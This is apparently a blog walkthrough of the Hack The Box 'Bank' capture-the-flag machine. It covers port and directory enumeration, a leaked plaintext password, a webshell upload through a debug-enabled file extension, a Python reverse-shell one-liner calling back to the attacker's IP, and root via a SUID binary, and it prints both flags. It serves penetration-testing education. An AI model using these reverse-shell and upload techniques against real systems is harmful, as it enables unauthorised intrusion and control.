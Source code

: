 ```yaml
---
layout: post
title: bank Walkthrough
subtitle: Hack The Box Bank Solution
gh-repo: daattali/beautiful-jekyll
gh-badge: [star, fork, follow]
tags: [bank, hackthebox, htb, walkthrough, pentest]
comments: true
---
```

Machine name: **bank**
Hosted on: **hackthebox.eu**
Type: **Capture the flag**
Goal: **Get the contain of user.txt and root.txt**
Time: **about 5h**

We are going to do a penetration test of a nice machine from hackthebox.eu called bank. I made it in company of my work mate last [last](http://blog.notso.pro "last") in about 5 hours. This machine hasn't been so hard, but we had few problems to understand how to unlock the way to cross.
The only information we received were the name of the machine
````
bank
````
and the ip address
```
10.10.10.29 
```

so we to scanned it using nmap

~~~
root@kali:~# nmap -sV -p- -n 10.10.10.29
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-26 14:25 CEST
Nmap scan report for 10.10.10.29
Host is up (0.036s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.26 seconds
~~~

we can notice we found 3 services to check.

- OpenSSH 6.6.1p1
- ISC BIND 9.9.5-3ubuntu0.14
- Apache httpd 2.4.7

but there weren't knowed vulnerability for them.

So We tried to connect on the 80 port for checking the web server, but we didn't get interesting things.
The response was the default page of Apache, and weren't surprises hidden in the source code. We tried to enumerate hidden directory using dirbuster but nothing happened.

IMMAGINE DEFAUL APACHE

We wasted a lot of time trying to find the right way, 
using big wordlist for the directories webserver enumeration, connecting to the 53 port without results, scanning UDP port of the machine.
After few hours spent without results, we had an idea.
Maybe the server was configured with virtualhost, so using the right domain we would be able to connect to the web application.

so we edited our hosts file
~~~
root@kali:/# nano etc/hosts
~~~

adding this line
~~~
10.10.10.29	bank.htb
~~~

so going by browser on `bank.htb` TADA'!!!

IMMAGINE WEBAPP

we found the login panel of the web application.
SQL injection didn't work, so we tried again to enumerate the directories.

I launched my dear friends **dirsearch**

~~~
root@kali:~/dirsearch# python3 dirsearch.py -u bank.htb -e * -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
~~~
let me analyze the command:
- **-u bank.htb** for specifying the Host
- **-e * ** for the extentions (we set ALL) 
- **-w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt** for the wordlist, i preferred to use the biggest wordlist for being sure

That's the result

~~~
[15:06:44] Starting: 
[15:06:44] 301 -  305B  - /uploads  ->  http://bank.htb/uploads/
[15:06:45] 301 -  304B  - /assets  ->  http://bank.htb/assets/
[15:06:48] 302 -    7KB - /  ->  login.php
[15:06:52] 301 -  301B  - /inc  ->  http://bank.htb/inc/
[15:12:19] 403 -  288B  - /server-status
[15:18:06] 301 -  314B  - /balance-transfer  ->  http://bank.htb/balance-transfer/

Task Completed
~~~

Our attenction was on

~~~
[15:18:06] 301 -  314B  - /balance-transfer  ->  http://bank.htb/balance-transfer/
~~~

in this directory there was an huge list of crypted .acc (account) files.

They were so similar, so **last** said me to check the size, We found one smaller then the others.

![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/found-not-encrypted.png "found-not-encrypted")

One file wasn't crypted and the informations were readable.

~~~
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
~~~

We were able to log in the platform, watching the balance, transaction history etc etc.
The vulnerability was inside the support page, there was an upload module, but we didn't find a way for uploading malware right there.


![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/support-page.png "support-page")

Reading more deeply we discovered the developer missed an important information used for debugging inside the HTML source code.

~~~
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
~~~


**thanks Mr Dev!** We can now upload our fantastic square-webshell (you should look at it on the [official repository](https://github.com/MrSaighnal/square-webshell "official repo")) simply changing the extension to .htb .

exploring the file system we found the first flag

~~~
cat ../../../../home/chris/user.txt
~~~

user.txt output:
~~~
37c97f8609f361848d8872098b0721c3
~~~

![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/square-webshell.png "user owned")

{: .box-success}
**Success:** User Owned.

it's now time to have a real shell for managing our new system :-)

let's get ready our computer for receving connections through **nc** using the command

~~~
root@kali:~# nc -vv -n -l -p 1337
~~~
Our machine is now listening on the 1337 port. (Don't close this terminal!!!)

let's launch on the webshell this command

~~~
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.2",1337));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
~~~

be sure to edit the 3°raw with your parameters **YOUR_IP** and **PORT**.

come back on your **nc** terminal and you shold see something similar to:

~~~
root@kali:~# nc -vv -n -l -p 1337
listening on [any] 1337 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.29] 51390
/bin/sh: 0: can't access tty; job control turned off
$
~~~

let's try to launch a command

~~~
root@kali:~# nc -vv -n -l -p 1337
listening on [any] 1337 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.29] 51390
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
~~~
it works.

for priviledge escalation we launched a command for checking all files with high priviledge 

~~~
$ find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \; 2> /dev/null
~~~

and the first apperd so weird:

~~~
-rwsr-xr-x 1 root root 112204 Jun 14  2017 `/var/htb/bin/emergency`
~~~

Our friend sysadmin misconfigurating the system leaving an important vulnerability open, through this file anyboyd is able to become root.

~~~
cd /var/htb/bin/
ls
emergency
./emergency
whoami
root
~~~

![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/whoami-root.png "whoami root")

and get the root flag 

~~~
cat /root/root.txt  
d5be56adc67b488f81a4b9de30c8a68e
~~~


![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/root-flag.png "root owned")

{: .box-success}
**Success:** Root Owned.
